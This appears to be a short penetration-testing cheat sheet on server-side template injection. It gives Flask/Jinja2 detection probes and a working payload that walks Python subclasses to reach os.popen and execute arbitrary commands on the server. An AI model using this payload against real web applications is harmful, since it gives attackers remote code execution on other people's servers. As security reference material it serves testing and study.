 ```yaml
---
description: >-
  SSTI (Server Side Templates Injections) occurs when an attacker is able to use
  native template syntax to inject a malicious payload into a template, which is
  then executed server-side.
---
```


# Templates Injections ✖️

There are different **frameworks** that uses **templates**, this guide could help to detect which is and exploit them.

![Methodology from PayloadsAllTheThings](../.gitbook/assets/ssti_graph.png)

## Flask

Flask is a framework for web applications written in Python and developed from the Werkzeug and Jinja2 tools.

### Syntax SSTI

```text
{{7*7}}
{{ varname }}
{% if 1=1 %}PRINT{%else%}NOPRINT{%endif%}
```

### RCE \(Remote Code Execution\)

```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("COMMAND").read()}}{%endif%}{%endfor%}
```

To bypass some restrictions take a look at the following resources:

## References

* [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
* h[ttps://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)


